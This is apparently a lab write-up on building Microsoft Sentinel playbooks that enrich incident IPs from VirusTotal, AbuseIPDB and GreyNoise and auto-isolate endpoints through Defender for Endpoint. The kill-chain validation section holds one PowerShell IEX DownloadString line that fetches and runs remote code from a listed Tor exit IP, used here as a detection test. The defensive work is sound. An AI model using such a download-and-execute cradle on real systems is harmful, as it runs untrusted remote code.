All playbooks authenticate using managed identities with appropriate permissions ([Microsoft Sentinel Responder](https://learn.microsoft.com/en-us/azure/sentinel/roles#built-in-azure-roles-for-microsoft-sentinel)) to the required Azure resources (log analytics workspace) — Again Claude Opus 4.6 was used to troubleshoot and optimize.

<Info>
If you are just interested in the complete result, skip to the [Kill Chain Validation](#kill-chain-validation) section to see the end-to-end flow in action. The following sections break down each playbook's logic, challenges and lessons learned during development.
</Info>

---

## Architecture

Each enrichment source runs as an independent playbook. Reason: If VirusTotal's API goes down or something else does not function correctly, [AbuseIPDB](https://www.abuseipdb.com/) and [GreyNoise](https://www.greynoise.io/) enrichment should still work. Independent playbooks also mean independent rate limits, error handling, and run histories — making troubleshooting much easier and offer more flexibility.

```
Sentinel Incident Created
        │
        ▼
Automation Rule: Enrich All Incidents with IP Entities (Order 1)
        │
        ├──► Enrich-IP-VirusTotal
        ├──► Enrich-IP-AbuseIPDB
        └──► Enrich-IP-GreyNoise
        
Automation Rule: Auto-Isolate High Severity (Order 2)
        │
        └──► Isolate-Endpoint-MDE
```

The running order is important. Enrichment runs first (Order 1) and can escalate incident severity based on gathered threat intelligence information. For Example AbuseIPDB promotes Medium incidents to High when it finds a confidence score above 80%. The isolation playbook runs second (Order 2) and respects the updated severity. This means a Medium-severity incident can be automatically escalated and contained without human intervention if threat intel confirms the IP is high-risk.

I only implemented this logic for the AbuseIPDB playbook because this is enough to showcase the interaction between enrichment and response. In a production environment with more resources, I'd apply similar severity escalation logic to VirusTotal (e.g., if multiple vendors flag the IP) and GreyNoise (e.g., if it's classified as malicious noise rather than benign). Or if an IP and a File hash both hit in the same incident, that could be a strong signal to escalate severity as well.

Playbooks were deployed to a separate resource group (`rg-sentinel-playbooks`) from the Sentinel workspace (`rg-security-lab`). This mirrors production patterns where SOAR resources have different RBAC and lifecycle management than the SIEM itself to give more control and flexibility.

---

## Enrich-IP-VirusTotal

**What it does:** Extracts IP entities from a Sentinel incident, queries the VirusTotal API for each IP, and writes a formatted enrichment comment to the incident with reputation data, detection counts, geolocation, and AS ownership.

<Warning>
For the initial deployment I used the VirusTotal Content Hub template with the built-in Logic Apps connector. Unfortunately I had issues with that config. Maybe I overlooked something but I couldn't find the exact Problem i think that the connector routes requests through Microsoft's API hub layer (`/api/v3/ip_addresses/connectorV2/...`), which seems to apply its own rate limiting on top of VirusTotal's limits. Every test returned `HTTP 429 - Quota exceeded` even though the VirusTotal dashboard showed only 28 of 500 daily requests consumed. The fix was replacing the managed connector with a direct HTTP action calling the VirusTotal API.
</Warning>


 The `malicious` count from vendor analysis is more reliable than the `reputation` score — it reflects how many of 70+ security vendors flagged the IP instead of community votes. The threshold of `> 0` is conservative; in production I'd raise it to `> 2` to filter out single-vendor false positives from overly aggressive feeds.

The For Each loop runs with concurrency set to 1 and includes a 15-second delay between API calls. VirusTotal's free tier allows 4 requests per minute and 500 per day — the delay keeps requests well within both limits even for incidents with multiple IPs.

<Frame caption="Enrich-IP-VirusTotal Logic App Designer Flow">
  
</Frame>


<Frame caption="Enrich-IP-VirusTotal Enrichment Result">
  
</Frame>


---

## Enrich-IP-AbuseIPDB

**What it does:** Queries AbuseIPDB for each IP entity in an incident, writes enrichment data to the incident, and escalates severity + adds tags when the abuse confidence score exceeds 80%.

<Frame caption="Enrich-IP-AbuseIPDB Logic App Designer Flow">
  
</Frame>


The other enrichment playbooks only add comments. This one also modifies the incident — escalates severity and adds a tag — because AbuseIPDB's confidence score is a direct, actionable signal. A score of 100% with 286 reports from distinct users is strong enough to justify automated escalation without analyst review.

The tag `high-risk-ip` enables queue filtering in the Sentinel incident view. An analyst can filter to show only incidents with confirmed malicious IPs and set priority based on gathered Threat Intelligence data rather than raw alerts. The 80% threshold was chosen based on AbuseIPDB's scoring methodology.

<Frame caption="AbuseIPDB Scoring">
  
</Frame>


<Frame caption="Enrich-IP-AbuseIPDB Enrichment Result">
  
</Frame>


<Info>
The severity escalation can be found in the full incident timeline screenshot in the [Kill Chain Validation](#kill-chain-validation) section below, as it interacts with the isolation playbook's severity gate.
</Info>


---

## Enrich-IP-GreyNoise

**What it does:** Queries the [GreyNoise Community API](https://docs.greynoise.io/reference/get_v3-community-ip) to classify each IP as internet noise (mass scanning), a known legitimate service or potentially targeted activity.

GreyNoise answers a question the other two sources can't: "Is this IP scanning everyone, or just us?" If an IP is flagged as `noise: true`, it's part of internet-wide scanning — noisy but not necessarily targeted. If GreyNoise has never seen the IP (`noise: false`, `riot: false`), the activity hitting your environment is likely targeted rather than opportunistic.

<Frame caption="Enrich-IP-GreyNoise Logic App Designer Flow">
  
</Frame>

<Warning>
**Handling 404 responses** - GreyNoise returns HTTP 404 for any IP it hasn't observed. Logic Apps treats non-200 responses as failures by default, which kills the rest of the flow. The fix was adding a status code check before attempting to parse the response body, with the 404 path producing its own enrichment comment rather than silently failing. The "NO DATA" comment includes an interpretation: if GreyNoise has never seen this IP scanning the internet and it's not a known service, then its presence is noteworthy.
</Warning>

<Warning>
**Classification refinement** - Initially, the playbook only checked for `noise: true` to identify benign scanners. However, some IPs are classified as `noise: false` but have `riot: true`, indicating they're known but not noisy. Adding this additional check allows the playbook to recognize and label these known services accurately, reducing noise in the incident comments.
</Warning>

<Frame caption="Enrich-IP-GreyNoise Enrichment Result">
  
</Frame>

---

## Isolate-Endpoint-MDE

**What it does:** Automatically isolates an endpoint via the Defender for Endpoint API when a high-severity incident contains a host entity, with safety controls to prevent isolating accidental critical infrastructure.

[Network isolation](https://learn.microsoft.com/en-us/defender-endpoint/api/isolate-machine#api-description) cuts the device off from everything except the Defender for Endpoint cloud service. Getting this wrong in production means isolating a domain controller, a file server, or a VIP's laptop during a false positive. The playbook includes three safety steps before execution.

<Frame caption="Isolate-Endpoint-MDE Logic App Designer Flow">
  
</Frame>


**Gate 1 — Watchlist check.** Before any isolation decision, the playbook queries the `HighValueAssets` watchlist. If the hostname is in the list, isolation is blocked and the incident gets a comment directing the analyst to review manually. In production, this watchlist would contain domain controllers, certificate authorities, jump servers, and executive devices.

**Gate 2 — Severity threshold.** Only High and Critical severity incidents trigger isolation. This gate goes hand in hand with the [AbuseIPDB's severity escalation](#enrich-ip-abuseipdb) — a Medium incident with a confirmed malicious IP gets promoted to High by AbuseIPDB, which then qualifies it for isolation.

**Gate 3 — Silent handling.** If the incident contains a host entity that doesn't exist in Defender for Endpoint, the playbook does nothing. Earlier versions posted "Host not isolated" for every non-matching device in the MDE inventory, which created noise on every incident.

**Device ID resolution.** Sentinel incidents contain hostnames, but the [Defender for Endpoint isolation API](https://learn.microsoft.com/en-us/defender-endpoint/api/isolate-machine#api-description) requires a machine GUID. The playbook resolves this by pulling the full MDE machine inventory, filtering by hostname, and extracting the device ID with `first()`. Using `first()` instead of iterating handles the case where a device has been re-onboarded and has multiple entries — it picks one instead of attempting isolation on stale records.

**Managed identity permissions.** The Logic App's managed identity requires permissions that can only be assigned via PowerShell because the Azure Portal doesn't expose API permissions for managed identities.

```powershell Assign managed identity permissions expandable
Connect-MgGraph -Scopes 'Application.ReadWrite.All,AppRoleAssignment.ReadWrite.All'
$managedIdentityId = '<Logic App Object ID>'
$mde = Get-MgServicePrincipal -Filter "AppId eq 'fc780465-2017-40d4-a0c5-307022471b92'"

# Machine.Isolate — required for the isolation API call
$isolatePermission = $mde.AppRoles | Where-Object { $_.Value -eq 'Machine.Isolate' }
New-MgServicePrincipalAppRoleAssignment `
-ServicePrincipalId $managedIdentityId `
-AppRoleId $isolatePermission.Id `
-PrincipalId $managedIdentityId `
-ResourceId $mde.Id

# Machine.Read.All — required to look up device information
$readPermission = $mde.AppRoles | Where-Object { $_.Value -eq 'Machine.Read.All' }
New-MgServicePrincipalAppRoleAssignment `
-ServicePrincipalId $managedIdentityId `
-AppRoleId $readPermission.Id `
-PrincipalId $managedIdentityId `
-ResourceId $mde.Id
```


The `fc780465-2017-40d4-a0c5-307022471b92` is the static application ID for "WindowsDefenderATP" in Entra ID — this is a constant across all tenants. Additionally, the managed identity needs `Microsoft Sentinel Responder` on the workspace (for incident comments) and `Log Analytics Reader` on the workspace resource group (for the watchlist query).

<Frame caption="Device Isolation Logic App designer">
  
</Frame>


---

## Automation Rules

Two automation rules orchestrate the playbooks. Both trigger on incident creation.

The enrichment rules were scoped to specific analytics rules rather than all incidents. In a production environment with hundreds of analytics rules, enriching every incident would max out the API quota really fast. Targeting only the rules that produce actionable IPs keeps API usage efficient.

<Frame caption="Sentinel Automations">
  
</Frame>

---

## Kill Chain Validation

To validate the full detection-to-response chain, I triggered a PowerShell download on `vm-client-01` targeting a known malicious IP (`185.220.101.34`, AbuseIPDB confidence score: 100%).

```powershell
powershell.exe -Command "IEX (New-Object Net.WebClient).DownloadString('http://185.220.101.34/test.txt')"
```

The connection failed (no server at that address), but both `DeviceProcessEvents` and `DeviceNetworkEvents` logged the attempt.

The full chain executed within 3 minutes of the incident being created:

- VirusTotal enrichment starts
- GreyNoise enrichment completes — had 185.220.101.34 scanned and identified as Tor exit node
- AbuseIPDB identifies 185.220.101.34 at 100% confidence → escalates severity Medium → High, adds `high-risk-ip` tag
- Automation rule adds `auto-enriched` tag
- Isolation playbook fires — severity is now High → passes severity gate → isolates vm-client-01
- Tags finalized: `auto-enriched`, `high-risk-ip`, `auto-isolated`

<Frame caption="Full Kill Chain Result">
  
</Frame>


<Frame caption="Device Isolation Result">
  
</Frame>


**Cross-source agreement.** In this kill chain run, all three enrichment sources converged on the same verdict for `185.220.101.34`:

<Tabs>
  <Tab title="VirusTotal">
    
  </Tab>
  <Tab title="AbuseIPDB">
    
  </Tab>
  <Tab title="GreyNoise">
    
  </Tab>
</Tabs>

All three sources independently identified this IP as a Tor exit node. This is the ideal scenario for automated response: when multiple independent intelligence sources agree, the confidence level is high enough to act without analyst/human review. 

<Note>
In this Lab I only created the isolation automation on basis of the AbuseIPDB confidence score. In a production environment, I would likely add additional conditions to the isolation playbook to check for corroborating signals from VirusTotal and GreyNoise as well — for example, only isolate if AbuseIPDB confidence is above 80% AND VirusTotal has at least 3 vendor detections + one suspicious file hash AND GreyNoise classifies it as noise rather than a known service. This multi-source agreement would further reduce the risk of false positives leading to disruptive automated actions.
</Note>

---

## Challenges and Lessons Learned

<Warning>
**VirusTotal Connector Rate Limiting** - The built-in VirusTotal Logic Apps connector routes requests through Microsoft's API hub, which applies its own rate limiting independently of VirusTotal's API limits. Switching to a direct HTTP action with the `x-apikey` header bypasses this entirely and fixed my 429 errors when testing, with multiple IPs in the same incident.
</Warning>

<Warning>
**GreyNoise 404 Handling** - GreyNoise returns HTTP 404 for any IP not in its dataset, which Logic Apps treats as a failure. The Parse JSON step after the HTTP call must have its "Run after" configuration set to execute on both success and failure, or the entire playbook stops at the first unknown IP.
</Warning>

---

## Production Considerations

This page was just a demo to validate the playbook/automation concept. In a production environment, I'd consider the following enhancements:

- **Additional enrichment sources.** Adding more different sources for environment specific needs. There are many vendor specific templates and other useful Threat Intelligence resources in the Content Hub that could be leveraged with minimal customization, such as Microsoft Defender for Identity for on-premises AD signals or Microsoft Cloud App Security for SaaS app context.

- **More granular response actions.** Instead of just isolating endpoints, playbooks could trigger a range of responses based on the severity and confidence level — for example, blocking an IP with Azure Firewall, disabling an Entra ID user or running an additional playbook which collects more information and creates a case in Microsoft Sentinel's built-in case management.

- **Dynamic severity thresholds.** Instead of hardcoding thresholds (e.g., AbuseIPDB confidence > 80%), the playbook could query a watchlist or external configuration to determine the appropriate action based on organizational risk tolerance and current threat landscape.